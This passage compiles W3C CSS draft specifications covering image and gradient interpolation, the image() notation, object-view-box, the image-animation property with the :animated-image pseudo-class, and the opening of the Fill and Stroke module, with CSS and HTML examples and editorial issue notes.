This section describes how to interpolate between new value types defined in this specification, for use with modules such as CSS Transitions and CSS Animations.

If an algorithm below simply states that two values should be "interpolated" or "transitioned" without further details, then the value should be interpolated as described by the Transitions spec. Otherwise, the algorithm may reference a variable *t* in its detailed description of the interpolation. This is a number which starts at 0% and goes to 100%, and is set to a value that represents the progress through the transition, based on the duration of the transition, the elapsed time, and the timing function in use. For example, with a linear timing function and a 1s duration, after .3s *t* is equal to 30%.

#### 7.1. Interpolating `<image>` {#css-images-4:interpolating-images}

All images can be interpolated, though some special types of images (like some gradients) have their own special interpolation rules. In general terms, images are interpolated by scaling them to the size of the *start image* and cross-fading the two while they transition to the size of the *end image*.

In specific terms, at each point in the interpolation the image is equal to `cross-fade( (100% - t) start image, end image)`.

> **Issue:** Special-case interpolating to/from no image, like "background-image: url(foo);" to "background-image: none;".

#### 7.2. Interpolating `image()` {#css-images-4:interpolating-image-function}

If two `image()` functions are to be interpolated, and they both have a single `<color>` argument, their interpolated value is an `image()` function with an interpolated <color>, using the standard rules for <color> interpolation.

#### 7.3. Interpolating `cross-fade()` {#css-images-4:interpolating-image-combinations}

The three components of `cross-fade()` are interpolated independently. Note this may result in nested `cross-fade()` notations.

#### 7.4. Interpolating `<gradient>` {#css-images-4:interpolating-gradients}

> **Issue:** This section needs review and improvement. In particular, I believe the handling of linear-gradient() is incomplete - I think we want to specifically interpolate the "length" of the gradient line (the distance between 0% and 100%) between the starting and ending positions explicitly, so it doesn’t grow and then shrink over a single animation.

Gradient images can be interpolated directly in CSS transitions and animations, smoothly animating from one gradient to another. There are only a few restrictions on what gradients are allowed to be interpolated:

1. Both the starting and ending gradient must be expressed with the same function. (For example, you can transition from a `linear-gradient()` to a `linear-gradient()`, but not from a `linear-gradient()` to a `radial-gradient()` or a `repeating-linear-gradient()`.)
2. Both the starting and ending gradient must have the same number of `<color-stop>`s. For this purpose, all repeating gradients are considered to have infinite color stops, and thus all repeating gradients match in this respect.
3. Neither gradient uses a combination of `<length>` and `<percentage>` color stops.

If the two gradients satisfy all of those constraints, they must be interpolated as described below. If they fail the third one only, they must be abruptly transitioned at 50% (unless otherwise specified by a future specification). If they fail either of the first two constraints, they must be interpolated using `cross-fade()` as for generic images.

> **Note:** The abrupt transition at 50% is so that content will not rely on cross-fading, and smarter interpolation rules can be added for this case in the future.

1. Convert both the start and end gradients to their explicit forms:

   **For linear gradients:**

   : - If the direction is specified as an `<angle>`, it is already in its explicit form.
  - Otherwise, change its direction to an `<angle>` in [`0deg`,`360deg`) that would produce an equivalent rendering.

    If both the start and end gradients had their direction specified with keywords, and the absolute difference between the angles their directions mapped to is greater than 180deg, add 360deg to the direction of the gradient with the smaller angle. This ensures that a transition from, for example, "to left" (270deg) to "to top" (0deg) rotates the gradient a quarter-turn clockwise, as expected, rather than rotating three-quarters of a turn counter-clockwise.

   **For radial gradients:**

   : - If the size is specified as two `<length>`s or `<percentage>`s, it is already in its explicit form.
  - Otherwise, the size must be changed to a pair of `<length>`s that would produce an equivalent ending-shape. If the `<radial-shape>` was specified as `circle`, change it to `ellipse`.
2. Interpolate each component and color-stop of the gradients independently. For linear gradients, the only component is the angle. For radial gradients, the components are the horizontal and vertical position of the center and the horizontal and vertical axis lengths.
3. To interpolate a color-stop, first match each color-stop in the start gradient to the corresponding color-stop at the same index in the end gradient. For repeating gradients, the first specified color-stop in the start and end gradients are considered to be at the same index, and all other color-stops following and preceding are indexed appropriately, repeating and shifting each gradient’s list of color-stops as needed. Then, for each pair of color-stops, interpolate the position and color independently.

#### 7.5. Interpolating `stripes()` {#css-images-4:interpolating-stripes}

Similar to gradients, two `stripes()` can be interpolated, allowing for smooth animations from one image to another. There is only one restriction on what `stripes()` are allowed to be interpolated. Both the starting and ending image must have the same number of `<color-stripe>`s. If the two images satisfy this constraint, they must be interpolated as described below. If they fail the constraint, they must be interpolated using `cross-fade()` as for generic images.

1. Interpolate each component and stripe of the images independently.
2. To interpolate a stripe, first match each stripe in the start image to the corresponding stripe at the same index in the end image. Then, for each pair of stripes, interpolate the thickness and color independently. `<flex>` values are interpolated as `<length-percentage>`s using the following formula:

   ```
   max(0, 100% - sum-of-percents - sum-of-fixed) * flex value / max(1, sum-of-flexes)
   ```

   where `sum-of-percents` is the sum of all `<percentage>`s in the `stripes()` function, `sum-of-fixed` is the sum of all fixed `<length>`s in the function, and `sum-of-flexes` is the sum of all `<flex>` values.

### 8. Serialization {#css-images-4:serialization}

This section describes the serialization of all new properties and value types introduced in this specification, for the purpose of interfacing with the CSS Object Model [CSSOM].

To serialize any function defined in this module, serialize it per its individual grammar, in the order its grammar is written in, omitting components when possible without changing the meaning, joining space-separated tokens with a single space, and following each serialized comma with a single space.

For `cross-fade()`, always serialize the `<percentage>`.

> **Example:** For example, a gradient specified as:
>
> ```
> Linear-Gradient( to bottom, red 0%,yellow,black 100px)
> ```
>
> must serialize as:
>
> ```
> linear-gradient(rgb(255, 0, 0), rgb(255, 255, 0), rgb(0, 0, 0) 100px)
> ```

### Appendix A: Deprecated Features and Aliases {#css-images-4:deprecated}

Implementations must accept **-webkit-image-set()** as a parse-time alias of `image-set()`. (It’s a valid value, with identical arguments to `image-set()`, and is turned into `image-set()` during parsing.)

---

## CSS Images Module Level 5 {#css-images-5}

- **Shortname:** `css-images-5`
- **Editor's Draft:** [https://drafts.csswg.org/css-images-5/](https://drafts.csswg.org/css-images-5/)
- **Published TR:** [https://www.w3.org/TR/css-images-5/](https://www.w3.org/TR/css-images-5/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-10-23
- **Diff Specification Over:** [CSS Images Module Level 4 (`css-images-4`)](#css-images-4)

### 1. Introduction {#css-images-5:intro}

This is a diff spec over [css-images-4].

### 2. 2D Image Values: the `<image>` type {#css-images-5:image-values}

...

#### 2.1. Image Fallbacks and Annotations: the `image()` notation {#css-images-5:image-notation}

[css-images-4] defines a simple form of the `image()` function, which generates a solid-color dimensionless image. This level introduces a number of additional functions.

The `image()` function allows an author to:

- use [media fragments](https://www.w3.org/TR/media-frags/) to clip out a portion of an image
- use a solid color as an image
- fallback to a solid-color image, when the image at the specified url can’t be downloaded or decoded
- automatically respect the image orientation specified in the image’s metadata

The `image()` notation is defined as:

```css
image() = image( <image-tags>? [ <image-src>? , <color>? ]! )
<image-tags> = [ ltr | rtl ]
<image-src> = [ <url> | <string> ]
```

A `<string>` used in `image()` represents a `<url>`. As usual for URLs in CSS, relative URLs are resolved to an absolute URL (as described in Values & Units [CSS-VALUES-3]) when a specified `image()` value is computed.

If the image has an orientation specified in its metadata, such as EXIF, the UA must rotate or flip the image to correctly orient it as the metadata specifies.

##### 2.1.1. Image Fallbacks {#css-images-5:image-fallbacks}

If both a URL and a `<color>` are specified in `image()`, then whenever the URL represents an invalid image or loading image, the `image()` function renders as if the URL were not specified at all; it generates a solid-color image as specified in [§ 2.1.3 Solid-color Images](#css-images-5:color-images).

If just a URL is specified (no `<color>`) and it represents an invalid image or loading image, the `image()` function represents the same.

> **Example:** The fallback color can be used to ensure that text is still readable even when the image fails to load. For example, the following legacy code works fine if the image is rectangular and has no transparency:
>
> ```css
> body      { color: black; background: white; }
> p.special { color: white; background: url("dark.png") black; }
> ```
>
> When the image doesn’t load, the background color is still there to ensure that the white text is readable. However, if the image has some transparency, the black will be visible behind it, which is probably not desired. The `image()` function addresses this:
>
> ```css
> body      { color: black; background: white; }
> p.special { color: white; background: image("dark.png", black); }
> ```
>
> Now, the black won’t show at all if the image loads, but if for whatever reason the image fails, it’ll pop in and prevent the white text from being set against a white background.

##### 2.1.2. Image Fragments {#css-images-5:image-fragments}

When a URL specified in `image()` represents a portion of a resource (e.g. by the use of [media fragment identifiers](https://www.w3.org/TR/media-frags/#naming-space)) that portion is clipped out of its context and used as a standalone image.

> **Example:** For example, given the following image and CSS:
>
> [![[9 circles, with 0 to 8 eighths filled in]](../css-images-5/images/sprites.svg)](../css-images-5/images/sprites.svg)
>
> ```css
> background-image: image('sprites.svg#xywh=40,0,20,20')
> ```
>
> ...the background of the element will be the portion of the image that starts at (40px,0px) and is 20px wide and tall, which is just the circle with a quarter filled in.

So that authors can take advantage of CSS’s forwards-compatible parsing rules to provide a fallback for image slices, implementations that support the `image()` notation *must* support the `xywh=#,#,#,#` form of media fragment identifiers for images specified via `image()`. [MEDIA-FRAGS]

> **Example:** Note that image fragments can also be used with the `url()` notation. However, a legacy UA that doesn’t understand the media fragments notation will ignore the fragment and simply display the entirety of the image.
>
> Since the `image()` notation requires UAs to support media fragments, authors can take advantage of CSS’s forward-compatible parsing rules to provide a fallback when using an image fragment URL:
>
> ```css
> background-image: url('swirl.png'); /* old UAs */
> background-image: image('sprites.png#xywh=10,30,60,20'); /* new UAs */
> ```

If a URL uses a fragment identifier syntax that the implementation does not understand, or does not consider valid for that type of image, the URL must be treated as representing an invalid image.

> **Note:** This error-handling is limited to `image()`, and not in the definition of URL, for legacy compat reasons.

##### 2.1.3. Solid-color Images {#css-images-5:color-images}

If the `image()` function is specified with only a `<color>` argument (no URL), it represents a solid-color image of the specified color with no natural dimensions.

> **Example:** For example, one can use this as a simple way to "tint" a background image, by overlaying a partially-transparent color over the top of the other image:
>
> ```css
> background-image: image(rgba(0, 0, 255, .5)), url("bg-image.png");
> ```
>
> This is equivalent to a single color stop gradient:
>
> ```css
> background-image: linear-gradient(rgba(0, 0, 255, .5)), url("bg-image.png");
> ```
>
> `background-color` does not work for this, as the solid color it generates always lies *beneath* all the background images.

##### 2.1.4. Bidi-sensitive Images {#css-images-5:bidi-images}

Before listing any `<image-src>s`, the author may specify a directionality for the image, similar to adding a `dir` attribute to an element in HTML. If a directional image is used on or in an element with opposite [direction](#css2:propdef-direction), the image must be flipped in the inline direction (as if it was transformed by, e.g., `scaleX(-1)`, if the inline direction is the X axis).

> **Note:** Absent this declaration, images default to no directionality at all, and thus don’t care about the directionality of the surrounding element.

> **Example:** A list may use an arrow for a bullet that points into the content. If the list can contain both LTR and RTL text, though, the bullet may be on the left or the right, and an image designed to point into the text on one side will point out of the text on the other side. This can be fixed with code like:
>
> ```html
> <ul style="list-style-image: image(ltr 'arrow.png');">
>   <li dir='ltr'>My bullet is on the left!</li>
>   <li dir='rtl'>MY BULLET IS ON THE RIGHT!</li>
> </ul>
> ```
>
> This should render something like:
>
> ```html
> ⇒ My bullet is on the left!
>   !THGIR EHT NO SI TELLUB YM ⇐
> ```
>
> In LTR list items, the image will be used as-is. In the RTL list items, however, it will be flipped in the inline direction, so it still points into the content.

### 3. Sizing Images and Objects in CSS {#css-images-5:sizing}

#### 3.1. Setting The Viewbox: the `object-view-box` property {#css-images-5:the-object-view-box}

| Field | Value |
| --- | --- |
| Name: | **object-view-box** |
| [Value:](#css-values-4:value-defs) | none \| `<basic-shape-rect>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | replaced elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword, or computed `<basic-shape>` function |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | as `<basic-shape>` if possible, otherwise discrete |

The `object-view-box` property specifies a "view box" over an element, which allows zooming or panning over the element’s contents. It maps to the `<svg viewBox>` attribute in SVG. [SVG2]

> **Issue:** Make sure behavior is [properly consistent for SVG](https://github.com/w3c/csswg-drafts/issues/7058#issuecomment-1057553833).

****none****

: The element does not have a view box.

****`<basic-shape-rect>`****

: If the element does not have both a natural width and a natural height, this value has no effect, similar to `none`.

  Otherwise, specifies a view box for the element.

  First, resolve the `<basic-shape-rect>` against a reference box formed by the element’s natural sizes to obtain the element’s view box.

  For all purposes, the element is now treated as having natural sizes equal to the view box’s width and height. If the element had a natural aspect ratio, it’s now treated as instead having the same ratio as the view box. Further adjustments to the size/position of the element’s contents, such as `object-position` or `object-fit`, are similarly performed on the view box instead.

  When the element is painted, its contents are scaled and translated such that the element’s contents retain the same position and size, relative to the view box’s final size and position, that they had when the view box was determined (above).

  > **Issue:** Have not yet defined what happens if the view box is zero-area. It’s an error case, so precise behavior isn’t important; just need to see what impls want to do about it.

> **Note:** Some replaced elements might have a built-in notion of a "view box", such as the `svg` element. Unless otherwise specified, this property does not interact with such notions; the built-in notion has its effect as normal, producing a replaced element with natural sizes, then this property applies on top of that.

> **Example:** Issue: example here. Need a basic one showing off zooming in, one showing off zooming out, and one showing off interaction with object-fit to display how the parts outside the viewbox can still be painted.

---

## CSS Image Animation Module Level 1 {#css-image-animation-1}

- **Shortname:** `css-image-animation-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-image-animation-1/](https://drafts.csswg.org/css-image-animation-1/)
- **Published TR:** [https://www.w3.org/TR/css-image-animation-1/](https://www.w3.org/TR/css-image-animation-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-11-16

### 1. Introduction {#css-image-animation-1:intro}

*This section is non-normative.*

Animated images (as enabled by [GIF], [PNG], [WebP]…) are in common use on the web. By default, user agents autoplay these images, which can be jarring for users, especially in use cases where there are multiple images on a single page (e.g. image galleries), and violates [WCAG 2.2 §  Success Criterion 2.2.2 Pause, Stop, Hide](https://w3c.github.io/wcag/guidelines/22/#pause-stop-hide). Currently, site authors have no control over this.

This leads to a user desire to control such animations. However, due to the diversity of usage, there is a wide range of use cases and desired UIs and user experiences, so making this an automatic or opt-in user agent feature [would not be sufficient](https://drafts.csswg.org/css-image-animation-1/explainer#provide-this-as-a-ua-setting).

To offer their users the best experience, websites need to control the playback experience, separately for each different uses of animated images.

This specification proposes a CSS property (`image-animation`) and a pseudo-class (`:animated-image`) to enable authors to control animations, and to target this control and any UI they wish to associate with it to relevant elements.

For further exploration of the motivations and of the alternatives considered, see also the separately maintained explainer and presentation on this topic.

> **Advisement:** Nothing in this specification precludes user agents offering users a setting to control image animation globally, such as an option to turn all animated images into static images.

### 2. Controlling Image Animations: the `image-animation` property {#css-image-animation-1:image-animation}

| Field | Value |
| --- | --- |
| Name: | **image-animation** |
| [Value:](#css-values-4:value-defs) | normal \| paused \| stopped \| running |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | declarative images |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property allows authors to control whether animated images are displayed in their animated state or paused.

When an element contains several declarative images (e.g. an element with multiple background images or border images, or a replaced element of the host language representing an image which also has one or more images associated with it via CSS), the computed value of the property on that element affects them all.

> **Note:** It is therefore not possible to pause animation of some of the images of an element while letting the animation run on other images of the same element.

In the case of non-animated images, the different values of this property have no effect. This property does not affect videos nor programmatic images.

When this property is applied to the root element, its effects on background images are propagated to the canvas background.

> **Note:** For legacy reasons, the `background` property propagates not only from the root element, but also from the HTML `body` element. However, newer properties like `image-animation` *only* propagate from the root element. Setting it on the `body` will not propagate, even if that is where the `background` is set.

****normal****

: The animation of animated images is run normally, as determined by the image format and the host language.

  Further, all animated images with the same [absolute URL](https://url.spec.whatwg.org/#syntax-url-absolute), the same image data, and with an `image-animation` computed value of `normal`' must be rendered synchronized to the same timeline as a group, with the timeline starting at the time of the least recent addition to the group.

  > **Note:** The above requirement is based on a [HTML] rendering expectation defined in [HTML § 15.4.2 Images](https://html.spec.whatwg.org/multipage/rendering.html#images-3). [HTML] does not generally require user agents to present documents in any particular way, and therefore does not normatively require the above behavior. This specification does.

****stopped****

: Animated images are rendered as if they were static images: the user agent must not run any animation it contains. If the image contains a cover frame, that is what the user agent must use; otherwise, it must display the image as it would be in the initial state of the animation.

****paused****

: The user agent must not run the animation contained in the Animated images, and must continue to display the image as it was when this value started to apply, effectively pausing the animation.

  If the animation had not been playing prior to this value being applied, the behavior is the same as `stopped`.

****running****

: Like `normal`, the animation of animated images is run normally, as determined by the image format and the host language.

  However, animation timelines are scoped per element: among all images of a single element with an `image-animation` computed value of `running`, any animated images with the same [absolute URL](https://url.spec.whatwg.org/#syntax-url-absolute) and the same image data must be rendered synchronized to the same timeline as a group, distinct from the timeline of images in other elements.

  If images are added to the element while the computed value is `running`, the timeline starts at the time of the least recent addition to the group.

  If the element is created or made visible after having previously been set to `display: none`, with images already added and with `image-animation` already set to `running`, the timeline starts when the element is included in the layout.

  If this property is switched to `running` from another value, the beginning of this timeline is set so that the animation continues from the state that was displayed at the time of the switch.

> **Example:** An author can use this property to suppress non-essential image animations in response to user preferences expressed by the `prefers-reduced-motion` media feature. Here, CSS-based images are made static, while `img` elements are kept animating.
>
> ```css
> :root { /* propagates through the document by inheritance */
>   image-animation: paused;
> }
> img {
>   image-animation: normal;
> }
> ```

> **Example:** A given HTML page contains several `img` elements displaying instances of the same image (same absolute URL and same image data), all styled with `image-animation: normal`.
>
> One of the elements has its `image-animation` property temporarily switched to `paused`, stopping the animation of its image. Other images are unaffected, and their animation continues.
>
> The `image-animation` property of the `paused` element is later changed to `running`. At that point, that image resumes its animation, without regard to how far along their timeline other images are, and is now out of sync.
>
> Later still, the `image-animation` property of that element is changed to `normal`. At that point, the image’s animation snaps back to being synchronized with the other instances.

The `image-animation` property affects not only raster image formats, but also vector images, including SVG (see [SVG2]). However, this is only the case for distinct SVG resources loaded as images, and does not include `svg` elements inlined into HTML documents. (Nevertheless, if set on the `svg` element, the property does inherit, and does affect any animated declarative image loaded via the SVG `image` element.)

### 3. Telling Animated Images Apart: the `:animated-image` pseudo-class {#css-image-animation-1:animated-image-pseudo}

The **:animated-image** pseudo-class matches elements representing a declarative image where an animated image has been loaded. For the `animated-image` pseudo-class to match, the image must not only be in a format that is capable of animation, but must also be an actually animated image.

The `animated-image` pseudo-class never matches elements which do not represent declarative images.

> **Example:** This pseudo class can be used by authors to selectively provide some user interface to enable users to play paused images.
>
> In this simplistic example, images that can animate are initially paused, and a filter is applied to them to make them look dull and grayed out. Upon hovering or focusing the image, the filter is removed and the image is allowed to play.
>
> ```css
> img:animated-image {
>   image-animation: paused;
>   filter: grayscale(10%) contrast(50%) brightness(80%);
> }
> img:animated-image:hover,
> img:animated-image:focus {
>   filter: none;
>   image-animation: running;
> }
> ```

> **Advisement:** It is important for authors building UI to control the animation of images to take the needs of keyboard users into consideration, and to avoid making the interaction rely solely on mouse interactions.
>
> > **Example:** In the [above example](#css-image-animation-1:minimalist-ui), play is triggered not only by hovering the image but also by focusing it. To make this fully functional, it would be necessary to make animatable images focusable. This could be accomplished with something like the following code snippet.
> >
> > ```javascript
> > function setImageFocusability(event) {
> >   var img = event.target;
> >   if (img.matches(":animated-image") {
> >     img.tabIndex = 0;
> >   } else {
> >     img.removeAttribute("tabindex");
> >   }
> > }
> > document.querySelectorAll("img").forEach( (i) => {
> >   setImageFocusability({target: i });
> >   i.addEventListener('load', setImageFocusability);
> >   i.addEventListener('error', setImageFocusability);
> > });
> > ```

Whether `:animated-image` matches is not affected by the current playing state of the image, nor by the value of the `image-animation` property. However, if some user agent setting has globally disabled image animations, when that setting is on, such a user agent may treat images that would otherwise be animated but whose animation is being suppressed as static images, and thus have them not match `:animated-image`.

> **Advisement:** User agents with a global setting to disable image animation face a usability vs privacy trade-off. As the primary function of `:animated-image` is to enable authors to target UI controls of image animations only to those images that are animatable, authors are best served by `:animated-image` not matching images where the animation has been suppressed. However, this can be used as a fingerprinting vector: by loading a known-to-be-animatable image and checking whether `:animated-image` matches, it is possible to tell whether this setting has been turned on. Conversely, if this is mitigated by `:animated-image` matching animatable images even when their animation has been suppressed by a user agent setting, privacy is preserved, but UI elements for controlling image animation introduced by authors can be displayed on images where there is no animation to control.

### 4. Terminology {#css-image-animation-1:terminology}

****static image****

: An image where a single frame is intended to be displayed as the final viewing experience.

  > **Example:** A JPEG image is a static image.

****animated image****

: An image where multiple frames are intended to be displayed sequentially as part of the final viewing experience, possibly though not necessarily looping.

  > **Example:** An animated PNG image, or an animated [GIF] image are animated images.

  Support for progressive rendering or multi-pass loading does not make an image qualify as animated.

****declarative image****

: A replaced element of the host language, representing a static image or an animated image, at the exclusion of videos or programmatic images, or an image inserted into the document rendering by CSS.

  > **Example:** The `img` [HTML] element, including when it is nested in the `picture` element; the `object` [HTML] element, in cases where it represents an image; or the `image` [SVG2] element are declarative images, as are those inserted through such properties as `background-image` or `border-image`, or through the `content` property.

  When it represents its poster frame (and only then), the HTML `video` element is considered a declarative image.

****video****

: A replaced element of the host language representing a moving picture, typically though not necessarily accompanied by sound, typically though not necessarily presented with interactive controls (for playing, pausing, seeking, controlling the volume, presenting in full screen…), and possibly though not necessarily accompanied by captions or subtitles.

  > **Note:** From a conceptual point of view, and only based on file formats, videos and animated images have considerable overlap, and cannot not necessarily be distinguished from one another in principle. The distinction here is based on author intent, as expressed through the choice of element in the document.

  > **Example:** The `video` [HTML] element represents a video.

  > **Example:** Assuming a user agent which would support both usages, the same `video/mp4` file would be considered a video if presented via the `video` element, or a declarative image if used as a CSS `background-image`.

****programmatic image****

: An image created programmatically via an API of the host language, as opposed to one loaded from an external resource.

  > **Example:** The `canvas` [HTML] element represents a programmatic image.

****cover frame****

: Some animated image formats make it possible for the creator of the image to specify a static image, referred to in this document as the cover frame, to display when the animation is not running, distinctly from the initial state of the animation.

### 5. Accessibility Considerations {#css-image-animation-1:a11y}

*This section is non-normative.*

- The features introduced by this specification enable authors to address what would otherwise be a violation of [WCAG 2.2 §  Success Criterion 2.2.2 Pause, Stop, Hide](https://w3c.github.io/wcag/guidelines/22/#pause-stop-hide).
- Web pages can already contain animated images, and appropriate `alt` text is already expected to be provided. No change is expected nor necessary to accommodate for pausing/resuming animations. Descriptions like ”Cartoon coyote being squashed by a falling anvil“, “cute dancing hamster”, “under construction”, or “rotating loading indicator” remain equally appropriate and evocative whether the animation is running or not.
- Currently, screen readers typically do not chose to announce animated images differently from non-animated images, though the accessibility tree could be augmented to expose this information if found desirable. Similarly, it is not expected that they would announce paused or playing images any differently, though the accessibility tree could be augmented to expose this information if found desirable.
- As discussed in [§ 3 Telling Animated Images Apart: the :animated-image pseudo-class](#css-image-animation-1:animated-image-pseudo), authors building UI to control image animation need to take the usual precautions in order to build an accessible UI. As it is not possible to directly make an element focusable in CSS, proper keyboard navigation will require element attributes to be set as well. An alternative solution, instead of or in addition to letting authors build their own UI on elements where the `:animated-image` pseudo class matches, would be to enable authors to instruct the user agent to provide the UI itself when appropriate.

  For example, an additional `controlled` value for the `image-animation` property could be defined. When this value would be specified, initially, the image animation would not run, as if `paused` has been specified. Additionally, if the underlying element represents an image (i.e. this is not an image that has been loaded by CSS) and that image is actually is an animated image, the user agent would provide some UI to allow the user to play and pause the animation, and would also make the element focusable.

  If necessary, this can be added to a later version of this specification. However, it is uncertain whether authors would broadly use this, as they frequently prefer to design UI controls specifically tailored to their site. This specification therefore chooses to defer working out the complexity of such a solution until author demand is confirmed.

---

## CSS Fill and Stroke Module Level 3 {#fill-stroke-3}

- **Shortname:** `fill-stroke-3`
- **Editor's Draft:** [https://drafts.csswg.org/fill-stroke/](https://drafts.csswg.org/fill-stroke/)
- **Published TR:** [https://www.w3.org/TR/fill-stroke-3/](https://www.w3.org/TR/fill-stroke-3/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-03-04

### 1. Introduction {#fill-stroke-3:intro}

Text and SVG graphical elements that define a shape—​`path` elements, basic shapes such as `rect`—​are rendered by being **filled**, which is painting the interior of the object, and **stroked**, which is painting along the outline of the object.

This specification describes how text and SVG graphical elements are filled and stroked, by defining a number of properties that control the appearance and shape of an element’s fill and stroke.

> **Issue:** Insert [Specifying Paint from SVG2](https://svgwg.org/svg2-draft/painting.html#SpecifyingPaint).

> **Issue:** Deal with text decoration. See [issue](https://www.w3.org/mid/20160422204811.GA17804@pescadero.dbaron.org) and [other issue](https://www.w3.org/mid/1400592192.22096.52.camel@localhost.localdomain).

### 2. Paint {#fill-stroke-3:paint}

Paint is what makes abstract geometries visible. It consists of colors, patterns, images, gradients, and other 2D graphics. The `<color>` type represents 0-dimensional paint; it is defined in [CSS3-COLOR]. The `<paint>` type represents 2-dimensional paint, and its syntax is:

```css
<paint> = none | <image> | <svg-paint>
```

****none****

: Indicates no paint is applied.

**`<image>`**

: Defined in [CSS3-IMAGES] and includes image references and gradients.

**`<svg-paint>`**

: References SVG paint servers, and is defined in [§ 2.1 SVG-Specific Paints](#fill-stroke-3:svg-paint). A `<url>` value here is treated as an ambiguous image URL.

#### 2.1. SVG-Specific Paints {#fill-stroke-3:svg-paint}

```css
<svg-paint> = child | child( <integer> )
```

****child****

: Refers to the last child paint server element of the element being painted.

  If there is no such child, behaves as `none`.

****child(`<integer>`)****

: This functional notation, which accepts a positive integer as its argument, refers to the nth child paint server element (1-indexed, as for `::nth-child()`) of the element being painted.

  If there is no such child, behaves as `none`.

  Arguments less than 1 are invalid.

> **Issue:** [[w3c/csswg-drafts Issue #383]](https://github.com/w3c/csswg-drafts/issues/383)

> **Issue:** `context-fill` and `context-stroke` need to be worked into the spec, but they belong as keywords on each individual `stroke` and `fill` sub-property, not as a `<paint>` value. Needs more WG discussion, and confirmation that this is an SVG2 feature that will be kept, before we do the relatively substantial edits for it.

> **Issue:** [CSS Images 4 § 2.7.1 Paint Sources](#css-images-4:paint-sources) defines how to handle SVG paint server coordinate spaces. Copy, ref, or something else here?

### 3. Fills {#fill-stroke-3:fills}

A **fill** paints within the outlines of an SVG shape or the glyphs of an inline (or SVG text) box. Similar to backgrounds [CSS3BG], fills can be a solid color (`fill-color`) and/or an image pattern (`fill-image` etc.).

**It is strongly recommended to use the `fill` shorthand when setting fills. The individual [painting longhands](#fill-stroke-3:fill-paint) should only be used when it’s needed to alter one individual aspect.**

> **Issue:** Add a `box-break` property that is a shorthand for `box-decoration-break`, `fill-break`, and `stroke-break`?

#### 3.1. Layering Multiple Fills {#fill-stroke-3:fill-layering}

The fill of a box can have multiple layers. The number of layers is determined by the number of comma-separated values for the `fill-image` property. A value of `none` still creates a layer.

List-valued properties interact exactly as for background images, defined in [CSS Backgrounds 3 § 2.1 Layering Multiple Background Images](#css-backgrounds-4:layering).

#### 3.2. Fill Geometry {#fill-stroke-3:fill-geometry}

##### 3.2.1. Winding Rule for SVG shapes: the `fill-rule` property {#fill-stroke-3:fill-rule}

| Field | Value |
| --- | --- |
| Name: | **fill-rule** |
| [Value:](#css-values-4:value-defs) | nonzero \| evenodd |
| [Initial:](#css-cascade-6:initial-values) | nonzero |
| [Applies to:](#css-cascade-5:applies-to) | SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The `fill-rule` property indicates the rule used to determine what parts of the canvas are included inside the shape. For a simple, non-intersecting path, it is intuitively clear what region lies “inside”; however, for a more complex path, such as a path that intersects itself or where one subpath encloses another, the interpretation of “inside” is not so obvious.

The `fill-rule` property provides two options for how the inside of a shape is determined:

****nonzero****

: This rule determines the “insideness” of a point on the canvas by drawing a ray from that point to infinity in any direction and then examining the places where a segment of the shape crosses the ray. Starting with a count of zero, add one each time a path segment crosses the ray from left to right and subtract one each time a path segment crosses the ray from right to left. After counting the crossings, if the result is zero then the point is outside the path. Otherwise, it is inside.

  

  The effect of a nonzero fill rule on paths with self-intersections and enclosed subpaths.

****evenodd****

: This rule determines the “insideness” of a point on the canvas by drawing a ray from that point to infinity in any direction and counting the number of path segments from the given shape that the ray crosses. If this number is odd, the point is inside; if even, the point is outside.

  

  The effect of an evenodd fill rule on paths with self-intersections and enclosed subpaths.

> **Note:** The above descriptions do not specify what to do if a path segment coincides with or is tangent to the ray. Since any ray will do, one may simply choose a different ray that does not have such problem intersections.

This property does not apply to text (whether SVG or CSS), as the “inside” of a text glyph is intrinsically defined.

> **Issue:** Should this be layerized?

##### 3.2.2. Fragmented Fills: the `fill-break` property {#fill-stroke-3:fill-break}

| Field | Value |
| --- | --- |
| Name: | **fill-break** |
| [Value:](#css-values-4:value-defs) | bounding-box \| slice \| clone |
| [Initial:](#css-cascade-6:initial-values) | bounding-box |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes? |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property specifies how the geometry of a fragmented box is treated for fills.

Values have the following meanings: COPY FROM FRAGMENTATION

#### 3.3. Fill Paint {#fill-stroke-3:fill-paint}

##### 3.3.1. Fill Color: the `fill-color` property {#fill-stroke-3:fill-color}

| Field | Value |
| --- | --- |
| Name: | **fill-color** |
| [Value:](#css-values-4:value-defs) | `<color>` |
| [Initial:](#css-cascade-6:initial-values) | currentcolor |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the computed color |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

This property sets the fill color of an element. This color is drawn behind any fill images.

**It’s recommended that authors use the `color` property to set the color of text, rather than `fill-color`.**

Unlike `background-color`, the fill color must only be drawn if the final layer of `fill-image` is `none` or an invalid image. If it’s a valid image, the fill color must not be drawn.

